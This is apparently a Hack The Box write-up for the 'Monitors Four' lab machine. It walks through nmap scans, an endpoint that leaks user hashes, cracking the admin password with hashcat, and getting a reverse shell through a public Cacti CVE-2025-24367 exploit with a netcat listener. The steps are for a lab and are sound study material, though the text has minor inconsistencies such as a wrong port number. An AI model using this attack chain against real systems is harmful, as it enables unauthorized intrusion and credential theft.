


<div align="center">
  <p style="font-size: 520px; margin: 0;">
    <h1> <b>Monitors Four</b> </h1>
  </p>
</div>
    
<p align="center">
  
</p>

It's an excessively complicated machine to be placed in the easy section.

It took me about two hours to solve it because there were concepts I'd never seen before, like Docker and others. I usually work on Linux machines, but this Windows machine was quite tough.
#
If we ping the IP address, we can see that the machine's `Time To Live is (ttl)` `127`, meaning it's a Windows machine.
```bash
PING 10.10.11.98 (10.10.11.98) 56(84) bytes of data.
64 bytes from 10.10.11.98: icmp_seq=1 ttl=127 time=61.3 ms
64 bytes from 10.10.11.98: icmp_seq=2 ttl=127 time=64.0 ms
64 bytes from 10.10.11.98: icmp_seq=3 ttl=127 time=63.7 ms
```


As always, we're going to do the scanning phase to find out what's behind this machine.


```bash
# Nmap 7.95 scan initiated Sun Dec 28 12:14:51 2025 as: /usr/lib/nmap/nmap --privileged -sS -vvv -n -p- --open --in-rate 5000 -Pn -oG allPorts 10.10.11.98
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.98 ()    Status: Up
Host: 10.10.11.98 ()    Ports: 80/open/tcp//http///, 5985/open/tcp//wsman///    Ignored State: filtered (65533)
# Nmap done at Sun Dec 28 12:15:17 2025 -- 1 IP address (1 host up) scanned in 26.46 seconds
```
We can see that port `80` is open, and also port `5389`, which is the default TCP/IP port used by `WinRM (Windows Remote Management)` for HTTP communication.
```bash

# Nmap 7.95 scan initiated Sun Dec 28 12:16:40 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p80,5985 -oN targeted 10.10.11.98
Nmap scan report for monitorsfour.htb (10.10.11.98)
Host is up (0.060s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MonitorsFour - Networking Solutions
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 28 12:16:52 2025 -- 1 IP address (1 host up) scanned in 11.87 seconds
```
# 

We will fuzz the subsequent directories, which would be like this: `http://monitorsfour.htb/FUZZ`

Among all the other directories we can see one called user, so we'll put this: `http://monitorsfour.htb/user`
and the page will tell us `{"error: Missing token parameter"}`, so we need an extra parameter. We'll add the following:

`http://monitorsfour.htb/user?token=0` This will show us all the users, but the only one we're interested in is the admin one.

<div align="center">
</div>

</p>


We can see that the user "admin" is listed, and then the password is a hash `(56b32eb43e6f15395f6c46c1c9e1cd36)`, so we will do the following: 
```bash
echo 56b32eb43e6f15395f6c46c1c9e1cd36 >> superuser
```
To save the hash on the superuser file and then:
```bash
sudo hashcat -a 0 -m 0 superuser /usr/share/wordlists/rockyou.txt
```
And this is what should appear next:
```bash
56b32eb43e6f15395f6c46c1c9e1cd36:wonderful1               
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 56b32eb43e6f15395f6c46c1c9e1cd36
Time.Started.....: Sun Dec 28 16:21:32 2025 (0 secs)
Time.Estimated...: Sun Dec 28 16:21:32 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/home/kali/Desktop/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   690.0 kH/s (0.24ms) @ Accel:512 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 20480/14344385 (0.14%)
Rejected.........: 0/20480 (0.00%)
Restore.Point....: 15360/14344385 (0.11%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: soybella -> michelle4
```
The admin user password is wonderful1

#

And the previous directories to make the ffuf is: `http://FUZZ.monitorsfour.htb`. In the previous directories, we will find an important one called Cacti. 

We must add `cacti.monitorsfour.htb` on /etc/hosts 
```bash
10.10.11.98	  monitorsfour.htb  cacti.monitorsfour.htb
```

<div align="center">
</div>

</p>

Cacti has version 1.2.28, which has an RCE vulnerability, `CVE-2025-24367`.

#### 1- Do a git clone to this URL `https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC`. 

#### 2- Run netcat in another shell on port 4444, nc -nlvp 4444

#### 3- Then add the following parameters to perform the exploitation: 

```python
python3 exploit.py \
-u marcus \
-p wonderful1 \
-i (YOUR.HTB.IP) \
-l 4444 \
-url http://cacti.monitorsfour.htb
```
By exploiting this vulnerability, you will gain access to the user's system, and from there you will need to navigate to the `/home/marcus/` directory, where the user.txt file will be located.

## Stuff used in this machine
- Hashcat
- Netcat
- CVE-(CVE-2025-24367)
- Curl Method
